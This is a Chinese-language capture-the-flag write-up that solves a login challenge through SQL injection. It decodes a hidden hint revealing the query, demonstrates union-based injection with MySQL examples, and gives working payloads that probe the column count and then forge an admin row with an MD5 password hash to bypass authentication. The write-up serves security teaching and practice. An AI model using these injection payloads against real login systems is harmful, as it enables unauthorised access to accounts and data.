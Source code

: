提交 1 1 显示 `wrong user!`, 提交 admin 1 显示 `wrong pass!`

name 提交单引号报错, 但是 pw 不会

过滤了 or 和括号... 常规的 SQL 注入怎么说也得要括号吧

右键源代码发现一处注释

```html
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

先 base32 解密再 base64 解密, 内容如下

```sql
select * from user where username = '$name'
```

注意他的检测方式不是 username 和 password 一起查的, 而是先查 username, 然后对比执行结果中的 password 和 post 传入的 pw 是否相等

联想到了之前在 CG-CTF 做过的一处 union 注入

具体例子如下

```mysql
mysql> select * from users where username='admin';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  8 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where username='1';
Empty set (0.00 sec)

mysql> select * from users where username='1' union select 1,'admin','admin';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)
```

前面构造不存在的内容让结果返回空, 后面再用 union 构造一组新的数据, 这样的出来的结果就跟正常的 select 结果一模一样了

测试的时候 pw 提交单引号不报错, 猜测可能是 md5 加密, payload 如下

```
order by被禁用，先用联合查询猜解一下字段数
admin' union select 1,2 #   回显列数不匹配 
admin' union select 1,2,3 #  回显密码错误，说明有三列
name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```

![](assets/202208241947059-1700744514804293.png)
